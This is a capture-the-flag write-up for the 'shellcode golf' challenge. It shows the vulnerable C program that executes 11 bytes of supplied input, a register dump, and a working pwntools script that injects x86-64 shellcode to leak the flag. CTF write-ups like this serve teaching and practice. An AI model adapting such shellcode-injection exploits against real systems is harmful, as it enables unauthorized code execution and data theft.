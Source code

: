 # shellcode golf

I'll execute any shellcode you give me, but only 11 bytes of it.  I bet you can't get the flag!  
`nc challenges.tamuctf.com 5320`

(provide binary)

## Solution

```c
void main() {
	char* flag = get_flag();
	char* shellcode = (char*) mmap((void*) 0x1337,12, 0, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	mprotect(shellcode, 12, PROT_READ | PROT_WRITE | PROT_EXEC);
	fgets(shellcode, 12, stdin);
	((void (*)(char*))shellcode)(flag);
}
```

The binary has a pointer to the flag on the stack that we need to leak. In fact, a quick look at the registers right before we execute our shellcode shows that the flag is sitting in rdx.
```text
$rax   : 0x0000000000010000  →  0x0000000000000a31 ("1\n"?)
$rbx   : 0x0000555555555260  →  <__libc_csu_init+0> push r15
$rcx   : 0x000055555555a4e2  →  0x0000000000000000
$rdx   : 0x0000555555559480  →  "flag{placeholder}\n"
```

We won't need to get a shell here, we can just use a write syscall to write flag and read from that. 


```python
from pwn import *
import re
context.arch = 'x86_64'

initial = asm(r'push %rdx; xchg %ebx,%edx; inc %edx; xchg %eax,%edx; pop %rsi; mov %edi,%eax; syscall')

print("initial payload is", len(initial), "bytes")

p = process('./shellcode-golf')

p.sendline(initial)

print(re.search("(gigem{.*})",p.recvall()[:40].decode()).group(1))
```
